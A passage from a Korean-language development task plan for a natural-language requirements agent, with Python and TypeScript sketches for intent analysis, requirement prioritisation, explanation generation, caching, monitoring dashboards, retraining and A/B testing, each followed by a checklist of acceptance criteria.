                'pattern': 'microservices',
                'key_components': ['product-catalog', 'inventory', 'checkout', 'recommendation'],
                'data_storage': 'polyglot',
                'messaging': 'event-driven',
                'security': 'pci-dss'
            }
        }

        return architectures.get(domain, {
            'pattern': 'modular-monolith',
            'key_components': [],
            'data_storage': 'relational',
            'messaging': 'rest',
            'security': 'standard'
        })
```

**검증 기준**:

- [ ] 도메인 감지 정확도 90% 이상
- [ ] 도메인별 특화 처리 구현
- [ ] 규정 준수 요구사항 자동 추가
- [ ] 도메인별 아키텍처 추천

#### SubTask 4.3.2: 의도 분석 및 목표 추출

**담당자**: NLP 전문가  
**예상 소요시간**: 12시간

**작업 내용**:

```typescript
// backend/src/agents/implementations/nl-intent-analyzer.ts
interface UserIntent {
  primary: IntentType;
  secondary: IntentType[];
  confidence: number;
  businessGoals: BusinessGoal[];
  technicalGoals: TechnicalGoal[];
  constraints: Constraint[];
}

enum IntentType {
  BUILD_NEW = 'build_new',
  MIGRATE_EXISTING = 'migrate_existing',
  MODERNIZE = 'modernize',
  INTEGRATE = 'integrate',
  OPTIMIZE = 'optimize',
  FIX_ISSUES = 'fix_issues',
}

interface BusinessGoal {
  type: string;
  description: string;
  measurableOutcome?: string;
  timeline?: string;
  priority: number;
}

interface TechnicalGoal {
  type: string;
  specification: string;
  currentState?: string;
  targetState: string;
  acceptanceCriteria: string[];
}

class IntentAnalyzer {
  private intentClassifier: IntentClassifier;
  private goalExtractor: GoalExtractor;
  private outcomePredictor: OutcomePredictor;

  async analyzeUserIntent(description: string, context?: ProjectContext): Promise<UserIntent> {
    // 1. 주요 의도 분류
    const intents = await this.intentClassifier.classify(description);

    // 2. 비즈니스 목표 추출
    const businessGoals = await this.extractBusinessGoals(description);

    // 3. 기술적 목표 추출
    const technicalGoals = await this.extractTechnicalGoals(description);

    // 4. 제약사항 식별
    const constraints = await this.identifyConstraints(description);

    // 5. 의도 검증 및 정제
    const validatedIntent = await this.validateIntent(
      intents,
      businessGoals,
      technicalGoals,
      constraints,
    );

    return validatedIntent;
  }

  private async extractBusinessGoals(description: string): Promise<BusinessGoal[]> {
    const goals: BusinessGoal[] = [];

    // 비즈니스 목표 패턴
    const goalPatterns = [
      {
        pattern: /increase\s+(\w+)\s+by\s+(\d+%?)/gi,
        type: 'growth',
        extractor: (match: RegExpMatchArray) => ({
          type: 'growth',
          description: `Increase ${match[1]} by ${match[2]}`,
          measurableOutcome: match[2],
          priority: 1,
        }),
      },
      {
        pattern: /reduce\s+(\w+)\s+(?:by\s+)?(\d+%?)?/gi,
        type: 'efficiency',
        extractor: (match: RegExpMatchArray) => ({
          type: 'efficiency',
          description: `Reduce ${match[1]}${match[2] ? ' by ' + match[2] : ''}`,
          measurableOutcome: match[2] || 'significant reduction',
          priority: 1,
        }),
      },
      {
        pattern: /automate\s+(.+?)(?:\.|,|$)/gi,
        type: 'automation',
        extractor: (match: RegExpMatchArray) => ({
          type: 'automation',
          description: `Automate ${match[1]}`,
          measurableOutcome: 'process automation',
          priority: 2,
        }),
      },
    ];

    // 패턴 매칭
    for (const { pattern, type, extractor } of goalPatterns) {
      let match;
      while ((match = pattern.exec(description)) !== null) {
        goals.push(extractor(match));
      }
    }

    // AI 기반 추가 목표 추출
    const aiExtractedGoals = await this.goalExtractor.extractGoals(description);
    goals.push(...aiExtractedGoals);

    // 중복 제거 및 우선순위 정렬
    return this.deduplicateAndPrioritize(goals);
  }

  private async extractTechnicalGoals(description: string): Promise<TechnicalGoal[]> {
    const technicalGoals: TechnicalGoal[] = [];

    // 성능 목표
    const performanceMatch = description.match(
      /(?:handle|support|serve)\s+(\d+)\s*(k|m|million)?\s*(?:users?|requests?|transactions?)/i,
    );

    if (performanceMatch) {
      const count = parseInt(performanceMatch[1]);
      const multiplier =
        performanceMatch[2] === 'k'
          ? 1000
          : performanceMatch[2] === 'm' || performanceMatch[2] === 'million'
            ? 1000000
            : 1;

      technicalGoals.push({
        type: 'performance',
        specification: `Support ${count * multiplier} concurrent users/requests`,
        targetState: `${count * multiplier} RPS`,
        acceptanceCriteria: [
          `Response time < 200ms at p95`,
          `Error rate < 0.1%`,
          `Availability > 99.9%`,
        ],
      });
    }

    // 확장성 목표
    if (/scalab|elastic|auto.?scal/i.test(description)) {
      technicalGoals.push({
        type: 'scalability',
        specification: 'Auto-scaling capability',
        targetState: 'Horizontal scaling with automatic adjustment',
        acceptanceCriteria: [
          'Scale from 1 to N instances based on load',
          'Scale up time < 2 minutes',
          'Zero downtime during scaling',
        ],
      });
    }

    // 보안 목표
    const securityKeywords = ['secure', 'encrypt', 'auth', 'compliance', 'gdpr', 'hipaa'];
    const hasSecurityRequirement = securityKeywords.some((keyword) =>
      description.toLowerCase().includes(keyword),
    );

    if (hasSecurityRequirement) {
      technicalGoals.push({
        type: 'security',
        specification: 'Enterprise-grade security',
        targetState: 'Fully secured application',
        acceptanceCriteria: [
          'End-to-end encryption',
          'Multi-factor authentication',
          'Role-based access control',
          'Security audit compliance',
        ],
      });
    }

    return technicalGoals;
  }
}
```

**검증 기준**:

- [ ] 의도 분류 정확도 85% 이상
- [ ] 비즈니스 목표 추출 완성도
- [ ] 기술 목표 구체화
- [ ] 측정 가능한 성과 지표 도출

#### SubTask 4.3.3: 요구사항 우선순위 자동화

**담당자**: 프로덕트 매니저  
**예상 소요시간**: 10시간

**작업 내용**:

```python
# backend/src/agents/implementations/nl_priority_analyzer.py
from typing import List, Dict, Tuple
from dataclasses import dataclass
import numpy as np

@dataclass
class PrioritizedRequirement:
    requirement: ParsedRequirement
    priority_score: float
    priority_factors: Dict[str, float]
    dependencies: List[str]
    estimated_effort: int  # story points
    business_value: float
    risk_level: float
    recommended_sprint: int

class RequirementPrioritizer:
    """요구사항 우선순위 자동 결정"""

    def __init__(self):
        self.value_estimator = BusinessValueEstimator()
        self.effort_estimator = EffortEstimator()
        self.risk_analyzer = RiskAnalyzer()
        self.dependency_resolver = DependencyResolver()

    async def prioritize_requirements(
        self,
        requirements: List[ParsedRequirement],
        project_context: ProjectContext
    ) -> List[PrioritizedRequirement]:
        """요구사항 우선순위 결정"""

        prioritized = []

        # 1. 각 요구사항 평가
        for req in requirements:
            # 비즈니스 가치 평가
            business_value = await self.value_estimator.estimate(req, project_context)

            # 구현 노력 추정
            effort = await self.effort_estimator.estimate(req)

            # 리스크 평가
            risk = await self.risk_analyzer.analyze(req)

            # 의존성 분석
            dependencies = self.dependency_resolver.find_dependencies(req, requirements)

            # 우선순위 점수 계산
            priority_score = self._calculate_priority_score(
                business_value,
                effort,
                risk,
                len(dependencies)
            )

            prioritized.append(PrioritizedRequirement(
                requirement=req,
                priority_score=priority_score,
                priority_factors={
                    'business_value': business_value,
                    'effort': effort,
                    'risk': risk,
                    'dependency_count': len(dependencies)
                },
                dependencies=dependencies,
                estimated_effort=effort,
                business_value=business_value,
                risk_level=risk,
                recommended_sprint=0  # 나중에 계산
            ))

        # 2. 의존성 기반 정렬
        prioritized = self._sort_by_dependencies(prioritized)

        # 3. 스프린트 할당
        prioritized = self._assign_to_sprints(prioritized, project_context)

        return prioritized

    def _calculate_priority_score(
        self,
        business_value: float,
        effort: int,
        risk: float,
        dependency_count: int
    ) -> float:
        """우선순위 점수 계산 (WSJF 변형)"""

        # Weighted Shortest Job First (WSJF) 공식 변형
        # Score = (Business Value + Time Criticality + Risk Reduction) / Job Size

        time_criticality = 1.0 / (dependency_count + 1)  # 의존성이 적을수록 높음
        risk_reduction = 1.0 - risk  # 리스크가 높은 항목 우선 처리

        numerator = (
            business_value * 0.4 +
            time_criticality * 0.3 +
            risk_reduction * 0.3
        )

        # 작업 크기로 나누기 (0으로 나누기 방지)
        job_size = max(effort, 1)

        return numerator / job_size

    def _sort_by_dependencies(
        self,
        prioritized: List[PrioritizedRequirement]
    ) -> List[PrioritizedRequirement]:
        """의존성을 고려한 정렬"""

        # 의존성 그래프 생성
        dependency_graph = {}
        for p_req in prioritized:
            dependency_graph[p_req.requirement.id] = p_req.dependencies

        # 위상 정렬
        sorted_ids = self._topological_sort(dependency_graph)

        # 정렬된 순서로 재배열
        id_to_req = {p.requirement.id: p for p in prioritized}
        sorted_requirements = []

        for req_id in sorted_ids:
            if req_id in id_to_req:
                sorted_requirements.append(id_to_req[req_id])

        # 위상 정렬에 포함되지 않은 요구사항 추가
        for p_req in prioritized:
            if p_req not in sorted_requirements:
                sorted_requirements.append(p_req)

        return sorted_requirements

    def _assign_to_sprints(
        self,
        prioritized: List[PrioritizedRequirement],
        project_context: ProjectContext
    ) -> List[PrioritizedRequirement]:
        """스프린트 할당"""

        sprint_capacity = project_context.team_velocity or 20  # 기본값
        current_sprint = 1
        current_capacity = 0

        for p_req in prioritized:
            # 현재 스프린트 용량 확인
            if current_capacity + p_req.estimated_effort > sprint_capacity:
                current_sprint += 1
                current_capacity = 0

            p_req.recommended_sprint = current_sprint
            current_capacity += p_req.estimated_effort

        return prioritized

    def _topological_sort(self, graph: Dict[str, List[str]]) -> List[str]:
        """위상 정렬 구현"""

        # 진입 차수 계산
        in_degree = {node: 0 for node in graph}
        for node in graph:
            for dep in graph[node]:
                if dep in in_degree:
                    in_degree[dep] += 1

        # 진입 차수가 0인 노드로 시작
        queue = [node for node, degree in in_degree.items() if degree == 0]
        sorted_nodes = []

        while queue:
            node = queue.pop(0)
            sorted_nodes.append(node)

            # 연결된 노드의 진입 차수 감소
            for dep in graph.get(node, []):
                if dep in in_degree:
                    in_degree[dep] -= 1
                    if in_degree[dep] == 0:
                        queue.append(dep)

        return sorted_nodes
```

**검증 기준**:

- [ ] WSJF 기반 우선순위 계산
- [ ] 의존성 고려 정렬
- [ ] 스프린트 자동 할당
- [ ] 팀 속도 반영

#### SubTask 4.3.4: 자연어 생성 및 설명

**담당자**: 테크니컬 라이터  
**예상 소요시간**: 8시간

**작업 내용**:

```python
# backend/src/agents/implementations/nl_explanation_generator.py
from typing import Dict, List, Any
from agno.agent import Agent
from agno.models.aws import AwsBedrock

class NLExplanationGenerator:
    """분석 결과를 자연어로 설명하는 생성기"""

    def __init__(self):
        self.explanation_agent = Agent(
            name="Explanation-Generator",
            model=AwsBedrock(id="anthropic.claude-3-haiku-v1:0"),
            role="Technical writer specializing in clear explanations",
            instructions=[
                "복잡한 기술 개념을 쉽게 설명",
                "분석 결과를 구조화된 형태로 제시",
                "사용자 수준에 맞는 설명 제공",
                "핵심 포인트 강조"
            ],
            temperature=0.7
        )

        self.template_engine = ExplanationTemplateEngine()
        self.formatter = ResponseFormatter()

    async def generate_requirements_summary(
        self,
        requirements: ProjectRequirements,
        analysis_results: Dict[str, Any]
    ) -> str:
        """요구사항 분석 결과 요약"""

        summary_prompt = f"""
        다음 프로젝트 분석 결과를 사용자가 이해하기 쉽게 요약해주세요:

        프로젝트 유형: {requirements.project_type}
        주요 기능: {', '.join(requirements.technical_requirements[:5])}
        기술 스택: {requirements.technology_preferences}
        제약사항: {', '.join(requirements.constraints)}

        다음 형식으로 작성하세요:
        1. 프로젝트 개요 (2-3문장)
        2. 핵심 기능 요약
        3. 기술적 접근 방법
        4. 주의사항 및 제약
        5. 다음 단계 제안
        """

        summary = await self.explanation_agent.arun(summary_prompt)

        # 포맷팅 및 스타일 적용
        formatted_summary = self.formatter.format_summary(summary)

        return formatted_summary

    async def explain_technical_decisions(
        self,
        decisions: List[Dict[str, Any]],
        user_level: str = 'intermediate'
    ) -> Dict[str, str]:
        """기술적 결정사항 설명"""

        explanations = {}

        for decision in decisions:
            # 사용자 수준에 맞는 설명 생성
            if user_level == 'beginner':
                explanation = await self._generate_beginner_explanation(decision)
            elif user_level == 'advanced':
                explanation = await self._generate_advanced_explanation(decision)
            else:
                explanation = await self._generate_intermediate_explanation(decision)

            explanations[decision['id']] = explanation

        return explanations

    async def _generate_beginner_explanation(
        self,
        decision: Dict[str, Any]
    ) -> str:
        """초급자를 위한 설명"""

        template = """
        🎯 **{decision_name}**

        **무엇인가요?**
        {simple_description}

        **왜 선택했나요?**
        {reasons_simple}

        **어떤 장점이 있나요?**
        {benefits_list}

        **참고사항**
        {considerations}
        """

        explanation_data = {
            'decision_name': decision['name'],
            'simple_description': await self._simplify_description(decision['description']),
            'reasons_simple': await self._simplify_reasons(decision['reasons']),
            'benefits_list': self._format_benefits(decision['benefits']),
            'considerations': self._format_considerations(decision['considerations'])
        }

        return self.template_engine.render(template, explanation_data)

    async def generate_clarification_response(
        self,
        question: ClarificationQuestion,
        user_answer: str,
        impact_analysis: Dict[str, Any]
    ) -> str:
        """명확화 질문에 대한 응답 생성"""

        response_prompt = f"""
        사용자가 다음 명확화 질문에 답변했습니다:

        질문: {question.question}
        답변: {user_answer}

        이 답변이 프로젝트에 미치는 영향:
        {impact_analysis}

        사용자에게 다음을 포함한 응답을 작성하세요:
        1. 답변 확인 및 감사
        2. 답변이 프로젝트에 미치는 영향 설명
        3. 추가로 필요한 정보나 다음 단계
        """

        response = await self.explanation_agent.arun(response_prompt)

        return self.formatter.format_clarification_response(response)

    def _format_benefits(self, benefits: List[str]) -> str:
        """장점 목록 포맷팅"""

        if not benefits:
            return "- 표준적이고 안정적인 선택입니다"

        formatted = []
        for benefit in benefits[:3]:  # 최대 3개
            formatted.append(f"- ✅ {benefit}")

        return "\n".join(formatted)

    def _format_considerations(self, considerations: List[str]) -> str:
        """고려사항 포맷팅"""

        if not considerations:
            return "특별한 주의사항은 없습니다."

        formatted = []
        for consideration in considerations[:2]:  # 최대 2개
            formatted.append(f"- ⚠️ {consideration}")

        return "\n".join(formatted)
```

**검증 기준**:

- [ ] 사용자 수준별 설명 생성
- [ ] 기술 용어 자동 설명
- [ ] 시각적 포맷팅 지원
- [ ] 다국어 설명 생성 가능

---

### Task 4.4: NL 에이전트 최적화 및 모니터링

#### SubTask 4.4.1: 성능 최적화 시스템

**담당자**: 성능 엔지니어  
**예상 소요시간**: 12시간

**작업 내용**:

```python
# backend/src/agents/implementations/nl_performance_optimizer.py
from typing import Dict, List, Optional
import asyncio
from functools import lru_cache
import redis
from dataclasses import dataclass

@dataclass
class PerformanceMetrics:
    response_time: float
    token_usage: int
    cache_hit_rate: float
    error_rate: float
    throughput: float

class NLPerformanceOptimizer:
    """NL Agent 성능 최적화"""

    def __init__(self):
        self.cache = redis.Redis(
            host='localhost',
            port=6379,
            decode_responses=True
        )
        self.metrics_collector = MetricsCollector()
        self.query_optimizer = QueryOptimizer()
        self.batch_processor = BatchProcessor()

    async def optimize_processing(
        self,
        nl_agent: NLInputAgent,
        input_text: str,
        optimization_level: str = 'balanced'
    ) -> ProjectRequirements:
        """최적화된 요구사항 처리"""

        # 1. 캐시 확인
        cache_key = self._generate_cache_key(input_text)
        cached_result = await self._check_cache(cache_key)

        if cached_result:
            self.metrics_collector.record_cache_hit()
            return cached_result

        # 2. 입력 최적화
        if optimization_level in ['aggressive', 'balanced']:
            optimized_input = await self.query_optimizer.optimize(input_text)
        else:
            optimized_input = input_text

        # 3. 처리 전략 결정
        processing_strategy = self._determine_strategy(
            optimized_input,
            optimization_level
        )

        # 4. 최적화된 처리 실행
        start_time = asyncio.get_event_loop().time()

        if processing_strategy == 'batch':
            result = await self._batch_process(nl_agent, optimized_input)
        elif processing_strategy == 'stream':
            result = await self._stream_process(nl_agent, optimized_input)
        else:
            result = await nl_agent.process_description(optimized_input)

        # 5. 결과 캐싱
        await self._cache_result(cache_key, result)

        # 6. 메트릭 수집
        processing_time = asyncio.get_event_loop().time() - start_time
        self.metrics_collector.record_processing(
            processing_time,
            len(input_text),
            processing_strategy
        )

        return result

    def _generate_cache_key(self, input_text: str) -> str:
        """캐시 키 생성"""

        # 정규화
        normalized = input_text.lower().strip()

        # 해시 생성
        import hashlib
        hash_object = hashlib.sha256(normalized.encode())
        return f"nl_input:{hash_object.hexdigest()[:16]}"

    async def _check_cache(self, cache_key: str) -> Optional[ProjectRequirements]:
        """캐시 확인"""

        try:
            cached_data = self.cache.get(cache_key)
            if cached_data:
                import json
                data = json.loads(cached_data)
                return ProjectRequirements(**data)
        except Exception as e:
            # 캐시 오류는 무시하고 진행
            pass

        return None

    async def _batch_process(
        self,
        nl_agent: NLInputAgent,
        input_text: str
    ) -> ProjectRequirements:
        """배치 처리 전략"""

        # 입력을 청크로 분할
        chunks = self._split_into_chunks(input_text)

        # 병렬 처리
        tasks = []
        for chunk in chunks:
            task = nl_agent.process_description(chunk)
            tasks.append(task)

        results = await asyncio.gather(*tasks)

        # 결과 병합
        merged_result = self._merge_results(results)

        return merged_result

    @lru_cache(maxsize=1000)
    def _determine_strategy(
        self,
        input_text: str,
        optimization_level: str
    ) -> str:
        """처리 전략 결정"""

        text_length = len(input_text)

        if optimization_level == 'aggressive':
            if text_length > 5000:
                return 'batch'
            elif text_length > 2000:
                return 'stream'
        elif optimization_level == 'balanced':
            if text_length > 10000:
                return 'batch'

        return 'standard'

    async def get_performance_metrics(self) -> PerformanceMetrics:
        """성능 메트릭 조회"""

        metrics = await self.metrics_collector.get_current_metrics()

        return PerformanceMetrics(
            response_time=metrics['avg_response_time'],
            token_usage=metrics['total_tokens'],
            cache_hit_rate=metrics['cache_hit_rate'],
            error_rate=metrics['error_rate'],
            throughput=metrics['requests_per_minute']
        )
```

**검증 기준**:

- [ ] 응답 시간 50% 개선
- [ ] 캐시 적중률 80% 이상
- [ ] 토큰 사용량 최적화
- [ ] 병렬 처리 지원

#### SubTask 4.4.2: 실시간 모니터링 대시보드

**담당자**: 데이터 엔지니어  
**예상 소요시간**: 10시간

**작업 내용**:

```typescript
// backend/src/agents/implementations/nl-monitoring-dashboard.ts
interface NLAgentMetrics {
  timestamp: Date;
  requestCount: number;
  averageResponseTime: number;
  tokenUsage: {
    input: number;
    output: number;
    total: number;
  };
  errorRate: number;
  userSatisfaction: number;
  topIntents: IntentCount[];
  languageDistribution: LanguageCount[];
}

interface AlertRule {
  id: string;
  metric: string;
  condition: 'gt' | 'lt' | 'eq';
  threshold: number;
  severity: 'low' | 'medium' | 'high' | 'critical';
  action: AlertAction;
}

class NLMonitoringDashboard {
  private metricsStore: MetricsStore;
  private alertManager: AlertManager;
  private visualizer: DataVisualizer;

  constructor() {
    this.metricsStore = new MetricsStore();
    this.alertManager = new AlertManager();
    this.visualizer = new DataVisualizer();

    this.initializeAlertRules();
  }

  private initializeAlertRules(): void {
    const rules: AlertRule[] = [
      {
        id: 'high_response_time',
        metric: 'averageResponseTime',
        condition: 'gt',
        threshold: 3000, // 3초
        severity: 'high',
        action: {
          type: 'notification',
          channels: ['slack', 'email'],
        },
      },
      {
        id: 'high_error_rate',
        metric: 'errorRate',
        condition: 'gt',
        threshold: 0.05, // 5%
        severity: 'critical',
        action: {
          type: 'escalation',
          channels: ['pagerduty'],
        },
      },
      {
        id: 'token_usage_spike',
        metric: 'tokenUsage.total',
        condition: 'gt',
        threshold: 100000, // 일일 한도
        severity: 'medium',
        action: {
          type: 'throttle',
          channels: ['api_gateway'],
        },
      },
    ];

    rules.forEach((rule) => this.alertManager.addRule(rule));
  }

  async collectMetrics(): Promise<void> {
    const metrics = await this.gatherCurrentMetrics();

    // 메트릭 저장
    await this.metricsStore.save(metrics);

    // 알림 확인
    await this.alertManager.evaluate(metrics);

    // 실시간 업데이트
    await this.broadcastMetrics(metrics);
  }

  private async gatherCurrentMetrics(): Promise<NLAgentMetrics> {
    const now = new Date();
    const fiveMinutesAgo = new Date(now.getTime() - 5 * 60 * 1000);

    // 각종 메트릭 수집
    const [requestCount, responseTimes, tokenUsage, errors, satisfaction, intents, languages] =
      await Promise.all([
        this.countRequests(fiveMinutesAgo, now),
        this.getResponseTimes(fiveMinutesAgo, now),
        this.getTokenUsage(fiveMinutesAgo, now),
        this.getErrors(fiveMinutesAgo, now),
        this.getUserSatisfaction(fiveMinutesAgo, now),
        this.getTopIntents(fiveMinutesAgo, now),
        this.getLanguageDistribution(fiveMinutesAgo, now),
      ]);

    return {
      timestamp: now,
      requestCount,
      averageResponseTime: this.calculateAverage(responseTimes),
      tokenUsage,
      errorRate: errors.length / requestCount,
      userSatisfaction: satisfaction,
      topIntents: intents,
      languageDistribution: languages,
    };
  }

  async generateDashboard(): Promise<DashboardConfig> {
    const hourlyMetrics = await this.metricsStore.getHourlyMetrics();
    const dailyMetrics = await this.metricsStore.getDailyMetrics();

    return {
      widgets: [
        {
          type: 'line-chart',
          title: 'Response Time Trend',
          data: this.visualizer.prepareTimeSeriesData(hourlyMetrics, 'averageResponseTime'),
          config: {
            yAxis: { label: 'Time (ms)' },
            threshold: 2000,
          },
        },
        {
          type: 'gauge',
          title: 'Current Token Usage',
          data: this.visualizer.prepareGaugeData(
            dailyMetrics.tokenUsage.total,
            100000, // daily limit
          ),
          config: {
            zones: [
              { max: 50000, color: 'green' },
              { max: 80000, color: 'yellow' },
              { max: 100000, color: 'red' },
            ],
          },
        },
        {
          type: 'bar-chart',
          title: 'Top User Intents',
          data: this.visualizer.prepareBarChartData(dailyMetrics.topIntents),
          config: {
            orientation: 'horizontal',
            limit: 10,
          },
        },
        {
          type: 'heatmap',
          title: 'Request Distribution',
          data: this.visualizer.prepareHeatmapData(hourlyMetrics, 'requestCount'),
          config: {
            xAxis: 'hour',
            yAxis: 'dayOfWeek',
          },
        },
      ],
      alerts: await this.alertManager.getActiveAlerts(),
      summary: this.generateSummaryStats(dailyMetrics),
    };
  }
}
```

**검증 기준**:

- [ ] 실시간 메트릭 수집 (5분 간격)
- [ ] 시각화 위젯 4종 이상
- [ ] 알림 규칙 자동 평가
- [ ] 성능 이상 자동 감지

#### SubTask 4.4.3: 학습 데이터 수집 및 개선

**담당자**: ML 엔지니어  
**예상 소요시간**: 12시간

**작업 내용**:

```python
# backend/src/agents/implementations/nl_learning_system.py
from typing import List, Dict, Tuple
import pandas as pd
from sklearn.model_selection import train_test_split

@dataclass
class TrainingExample:
    input_text: str
    expected_output: ProjectRequirements
    actual_output: Optional[ProjectRequirements]
    user_feedback: Optional[UserFeedback]
    processing_time: float
    success: bool

class NLLearningSystem:
    """NL Agent 지속적 학습 시스템"""

    def __init__(self):
        self.training_data_store = TrainingDataStore()
        self.model_trainer = ModelTrainer()
        self.evaluation_engine = EvaluationEngine()
        self.feedback_processor = FeedbackProcessor()

    async def collect_training_example(
        self,
        input_text: str,
        output: ProjectRequirements,
        metadata: Dict[str, Any]
    ):
        """학습 데이터 수집"""

        example = TrainingExample(
            input_text=input_text,
            expected_output=None,  # 나중에 사용자 피드백으로 채움
            actual_output=output,
            user_feedback=None,
            processing_time=metadata.get('processing_time', 0),
            success=metadata.get('success', True)
        )

        # 저장
        await self.training_data_store.save(example)

        # 이상 감지
        if await self._is_anomaly(example):
            await self._handle_anomaly(example)

    async def process_user_feedback(
        self,
        example_id: str,
        feedback: UserFeedback
    ):
        """사용자 피드백 처리"""

        # 학습 예제 업데이트
        example = await self.training_data_store.get(example_id)
        example.user_feedback = feedback

        # 피드백 기반 개선점 분석
        improvements = await self.feedback_processor.analyze(
            example,
            feedback
        )

        # 개선사항 적용
        if improvements:
            await self._apply_improvements(improvements)

        # 재학습 필요성 평가
        if await self._should_retrain():
            await self._trigger_retraining()

    async def evaluate_performance(
        self,
        time_period: str = 'daily'
    ) -> PerformanceReport:
        """성능 평가"""

        # 데이터 로드
        examples = await self.training_data_store.get_examples(time_period)

        # 메트릭 계산
        metrics = {
            'accuracy': self._calculate_accuracy(examples),
            'precision': self._calculate_precision(examples),
            'recall': self._calculate_recall(examples),
            'f1_score': self._calculate_f1_score(examples),
            'user_satisfaction': self._calculate_satisfaction(examples)
        }

        # 트렌드 분석
        trends = await self._analyze_trends(examples)

        # 개선 제안
        recommendations = await self._generate_recommendations(
            metrics,
            trends
        )

        return PerformanceReport(
            metrics=metrics,
            trends=trends,
            recommendations=recommendations,
            sample_size=len(examples)
        )

    async def _should_retrain(self) -> bool:
        """재학습 필요성 판단"""

        # 최근 성능 메트릭
        recent_performance = await self.evaluate_performance('weekly')

        # 재학습 기준
        criteria = {
            'accuracy_drop': recent_performance.metrics['accuracy'] < 0.85,
            'high_error_rate': recent_performance.metrics['error_rate'] > 0.1,
            'user_complaints': recent_performance.metrics['user_satisfaction'] < 0.7,
            'data_drift': await self._detect_data_drift()
        }

        # 하나라도 충족하면 재학습
        return any(criteria.values())

    async def _trigger_retraining(self):
        """모델 재학습 트리거"""

        # 학습 데이터 준비
        training_data = await self._prepare_training_data()

        # 검증 세트 분리
        train_set, val_set = train_test_split(
            training_data,
            test_size=0.2,
            random_state=42
        )

        # 모델 학습
        new_model = await self.model_trainer.train(
            train_set,
            val_set,
            hyperparameters={
                'learning_rate': 0.001,
                'batch_size': 32,
                'epochs': 10
            }
        )

        # 성능 비교
        current_performance = await self._evaluate_current_model(val_set)
        new_performance = await self._evaluate_model(new_model, val_set)

        # 개선된 경우에만 배포
        if new_performance > current_performance * 1.05:  # 5% 개선
            await self._deploy_new_model(new_model)

    async def _prepare_training_data(self) -> pd.DataFrame:
        """학습 데이터 준비"""

        # 최근 3개월 데이터
        examples = await self.training_data_store.get_examples('3months')

        # 성공적인 예제만 선택
        successful_examples = [
            ex for ex in examples
            if ex.success and ex.user_feedback and ex.user_feedback.rating >= 4
        ]

        # 데이터 증강
        augmented_data = await self._augment_data(successful_examples)

        # 데이터프레임 변환
        df = pd.DataFrame([
            {
                'input': ex.input_text,
                'output': ex.expected_output or ex.actual_output,
                'features': self._extract_features(ex)
            }
            for ex in augmented_data
        ])

        return df
```

**검증 기준**:

- [ ] 자동 학습 데이터 수집
- [ ] 사용자 피드백 통합
- [ ] 성능 저하 자동 감지
- [ ] 모델 재학습 자동화

#### SubTask 4.4.4: A/B 테스팅 프레임워크

**담당자**: 실험 엔지니어  
**예상 소요시간**: 10시간

**작업 내용**:

```typescript
// backend/src/agents/implementations/nl-ab-testing.ts
interface Experiment {
  id: string;
  name: string;
  hypothesis: string;
  variants: Variant[];
  allocation: AllocationStrategy;
  metrics: MetricDefinition[];
  status: 'draft' | 'running' | 'completed' | 'aborted';
  results?: ExperimentResults;
}

interface Variant {
  id: string;
  name: string;
  description: string;
  configuration: any;
  allocation: number; // percentage
}

interface ExperimentResults {
  winner?: string;
  confidence: number;
  metrics: {
    [variantId: string]: {
      [metricName: string]: MetricResult;
    };
  };
  sampleSize: {
    [variantId: string]: number;
  };
}

class NLABTestingFramework {
  private experiments: Map<string, Experiment> = new Map();
  private assignmentService: AssignmentService;
  private metricsCollector: MetricsCollector;
  private statisticsEngine: StatisticsEngine;

  async createExperiment(config: ExperimentConfig): Promise<Experiment> {
    const experiment: Experiment = {
      id: generateId(),
      name: config.name,
      hypothesis: config.hypothesis,
      variants: config.variants,
      allocation: config.allocation || { type: 'even' },
      metrics: config.metrics,
      status: 'draft',
    };

    // 실험 검증
    await this.validateExperiment(experiment);

    // 저장
    this.experiments.set(experiment.id, experiment);

    return experiment;
  }

  async startExperiment(experimentId: string): Promise<void> {
    const experiment = this.experiments.get(experimentId);
    if (!experiment) throw new Error('Experiment not found');

    // 사전 검증
    await this.preflightCheck(experiment);

    // 실험 시작
    experiment.status = 'running';

    // 할당 서비스 초기화
    await this.assignmentService.initialize(experiment);

    // 메트릭 수집 시작
    await this.metricsCollector.startCollection(experiment);
  }

  async assignVariant(experimentId: string, userId: string): Promise<Variant> {
    const experiment = this.experiments.get(experimentId);
    if (!experiment || experiment.status !== 'running') {
      throw new Error('No active experiment');
    }

    // 사용자 할당 (일관성 보장)
    const variant = await this.assignmentService.assign(experiment, userId);

    // 할당 기록
    await this.recordAssignment(experimentId, userId, variant.id);

    return variant;
  }

  async processWithVariant(
    nlAgent: NLInputAgent,
    input: string,
    userId: string,
  ): Promise<ProjectRequirements> {
    // 활성 실험 확인
    const activeExperiments = this.getActiveExperiments();

    let selectedVariant = null;
    let experimentId = null;

    // 사용자에게 할당된 변형 찾기
    for (const experiment of activeExperiments) {
      const variant = await this.assignVariant(experiment.id, userId);
      if (variant) {
        selectedVariant = variant;
        experimentId = experiment.id;
        break;
      }
    }

    // 변형 적용
    const modifiedAgent = selectedVariant ? this.applyVariant(nlAgent, selectedVariant) : nlAgent;

    // 처리 시작
    const startTime = Date.now();
    const result = await modifiedAgent.process_description(input);
    const duration = Date.now() - startTime;

    // 메트릭 기록
    if (experimentId && selectedVariant) {
      await this.recordMetrics(experimentId, selectedVariant.id, {
        processingTime: duration,
        success: true,
        timestamp: new Date(),
      });
    }

    return result;
  }

  async analyzeExperiment(experimentId: string): Promise<ExperimentResults> {
    const experiment = this.experiments.get(experimentId);
    if (!experiment) throw new Error('Experiment not found');

    // 데이터 수집
    const data = await this.metricsCollector.getData(experimentId);

    // 통계 분석
    const analysis = await this.statisticsEngine.analyze(data, {
      confidenceLevel: 0.95,
      minimumSampleSize: 100,
      testType: 'two-tailed',
    });

    // 결과 구성
    const results: ExperimentResults = {
      confidence: analysis.confidence,
      metrics: {},
      sampleSize: {},
    };

    // 각 변형별 메트릭 계산
    for (const variant of experiment.variants) {
      results.metrics[variant.id] = {};
      results.sampleSize[variant.id] = data[variant.id].length;

      for (const metric of experiment.metrics) {
        results.metrics[variant.id][metric.name] = await this.calculateMetric(
          data[variant.id],
          metric,
        );
      }
    }

    // 승자 결정
    if (analysis.isSignificant) {
      results.winner = analysis.winner;
    }

    return results;
  }

  private applyVariant(agent: NLInputAgent, variant: Variant): NLInputAgent {
    // 변형 설정 적용
    const modifiedAgent = Object.create(agent);

    if (variant.configuration.temperature !== undefined) {
      modifiedAgent.temperature = variant.configuration.temperature;
    }

    if (variant.configuration.model !== undefined) {
      modifiedAgent.model = variant.configuration.model;
    }

    if (variant.configuration.prompts !== undefined) {
      modifiedAgent.prompts = {
        ...modifiedAgent.prompts,
        ...variant.configuration.prompts,
      };
    }

    return modifiedAgent;
  }
}
```

**검증 기준**:

